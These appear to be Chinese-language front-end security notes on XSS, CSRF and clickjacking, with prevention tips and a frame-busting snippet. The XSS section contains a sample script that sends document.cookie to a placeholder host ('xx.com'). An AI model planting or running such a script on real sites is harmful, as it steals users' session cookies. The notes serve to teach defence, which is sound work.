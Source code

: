 > Cross Site Script 跨站脚本攻击

黑客将 JS 代码插入到网页内容中，渲染时执行JS代码

特殊字符替换(前端或者后端）, 比如< 替换成`&lt;` >替换成 `&gt;`

```html
  <div>
    <script>
      let img = document.createElement('image')
      img.src = 'https://xx.com/cookie=' + document.cookie
    </script>
   </div>
```

Vue v-html

React dangerouslySetInnerHTML

需要注意 xss 攻击的问题

比如vue  直接{{}} 放到页面中是不需要担心这个问题的

## CSRF

> Cross Site Request Forgery 跨站请求伪造

黑客诱导用户去访问另一个网站的接口，伪造请求

严格的跨域限制+验证码机制

**类似过程**

用户登录了A网站，有了 cookie

黑客诱导用户到B网站，并发起A网站的请求

A网站的API发现有 cookie，认为是用户自己操作的

**预防手段**

- 严格的跨域请求限制，如判断 referrer (请求来源)
- 为 cookie 设置SameSite 禁止跨域传递cookie
- 关键接口使用短信验证码

## 点击劫持

比如一个A页面放了一个抽奖按钮，抽奖按钮上面隐藏了一个iframe，对应到比如xx网站的关注按钮上，用户点击抽奖按钮，其实点击的是关注按钮，那就多了一个粉丝

所以xx网站需要做防护

```js
  if (top.location.hostname !== self.location.hostname) {
    alert('您正在访问不安全的页面，即将跳转到安全页面')
    top.location.href = self.location.href
  }
```

## DDos（跟前端就没关系了）
